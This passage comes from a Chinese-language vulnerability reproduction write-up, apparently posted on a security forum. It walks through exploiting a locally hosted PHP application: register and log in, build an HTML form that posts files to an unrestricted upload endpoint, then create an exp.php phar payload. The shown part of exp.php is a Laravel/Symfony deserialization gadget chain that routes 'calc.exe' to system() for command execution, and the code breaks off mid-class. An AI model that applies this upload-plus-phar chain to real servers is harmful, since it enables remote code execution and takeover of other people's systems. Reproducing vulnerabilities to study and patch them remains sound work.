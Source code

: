 访问 <http://localhost:38201/register> 任意注册账号。

![document_image_rId18.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-6f1479f6a9a2d73f88071e190bb14d01f838746a.png)

访问 <http://localhost:38201/login> 进行登录

2. **注册账号并登录**

在任意文件夹下创建命名为`index.html`文件，内容为：

```php

<html>
<head>
    <meta charset="UTF-8">
    <title>文件上传表单</title>
</head>
<body>

<h1>文件上传</h1>

<form action="http://localhost:38201/member_data/file_manager/file?action=uploadDirect" method="post" enctype="multipart/form-data">
    <label for="file">选择要上传的文件:</label>
    <input type="file" name="file" id="file">
    <br><br>
    <input type="submit" value="上传文件">
</form>

</body>
</html>
```

在文件目录下使用`python -m http.server 19980`

3. **生成EXP phar文件**

在Public文件夹下新建命名为exp.php文件，内容如下

```php
<?php
namespace Illuminate\Database;
class DatabaseManager{
    protected $extensions = array();
    protected $app=array();
    public function __construct(){
        $this->extensions['calc.exe']='call_user_func';
        $this->app['config']['database.connections']=['calc.exe'=>'system'];
        $this->app['config']['database.default'] = 'calc.exe';
    }
}

namespace Illuminate\View;
use Illuminate\Database\DatabaseManager;
class View{
    protected $factory;
    public function __construct(){
        $this->factory=new DatabaseManager;
    }
}

namespace Symfony\Component\Process\Pipes;
use Illuminate\View\View;
use Phar;

class WindowsPipes{
    private $files = array();
    public function __construct(){
```